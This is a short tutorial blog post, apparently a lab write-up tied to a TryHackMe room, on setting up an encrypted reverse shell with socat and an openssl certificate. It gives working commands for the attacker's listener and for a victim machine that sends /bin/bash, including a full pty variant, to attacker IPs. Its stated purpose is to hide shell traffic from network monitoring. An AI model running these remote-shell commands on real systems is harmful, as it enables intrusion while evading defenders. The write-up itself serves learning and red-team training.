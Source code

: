 ```yaml
---
title: "Socat - Encrypted reverse shell"
author: Nasrallah
description: ""
date: 2022-12-21 00:00:00 +0000
categories : []
tags: [linux, easy, reverse-shell, socat, openssl]
img_path: /assets/img/others/socat
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Reverse shells are used a lot for getting foothold on the target systems, but these reverse shells use a clear text-based communication which allows administrators monitoring the network to not only see the commands that are run on the target but also see the output that is displayed to the attacker, which leaves the latter in a vulnerable position.

We are going to use `socat` that utilizes an encryption key created with `openssl` and set `socat` to use that key to enforce encryption as it listens for incoming connections.

## **Socat**

We create the key with `openssl` using the following command:

```bash
openssl req -newkey rsa:4096 -x509 -days 1000 -subj '/CN=www.revshell.thb/O=Rev Shell/C=UK' -nodes -keyout revshell.key -out revshell.crt
```

 - req: Indicates that this is a certificate signing request.

 - -x509: Specifies that we want an X.509 certificate.

 - -newkey rsa:4096: Creates a new certificate request and a new private key using RSA with the key size being 4096 bits.

 - -days 1000: Sets the validity of the certificate to 1000 days.

 - -subj: sets data such as organization and country.

 - -nodes: Or No DES which means OpenSSl will note encrypt the private key.

 - -keyout: Specifies the filename of the private key.

 - -out: Specifies the filename of the certificate request.


Now we need to create a Privacy Enhanced Mail `.pem` file by concatenating the private key `.key` and the certificate `.crt`

![](1.png)

With that, we can start listening using the key for encrypting the communication with the client.

```bash
socat -d -d OPENSSL-LISTEN:4443,cert=revshell.pem,verify=0,fork STDOUT
```

 - -d -d: provides debugging data(error, warning..)

 - OPENSSH-LISTEN:4443: indicates that the connection will be encrypted using OPENSSL and sets the listening port to 4443.

 - cert=PEM_file:provides the PEM file to establish the encrypted connection.

 - verify=0: disables checking peer's certificate.

 - fork: creates a sub-process to handle each new connection.

Now on the victim machine we execute the following command:

```bash
socat OPENSSL:10.10.10.10:4443,verify=0 EXEC:/bin/bash
```

![](2.png)

And we managed to get an encrypted shell.

We can also get a pty shell by executing this command:

```bash
socat OPENSSL:10.11.14.124:4443,verify=0 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
```

![](3.png)

To check if the connection is encrypted, we can intercept the traffic using `wireshark`.

![](5.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

https://tryhackme.com/room/redteamnetsec

https://www.hackingarticles.in/encrypted-reverse-shell-for-pentester/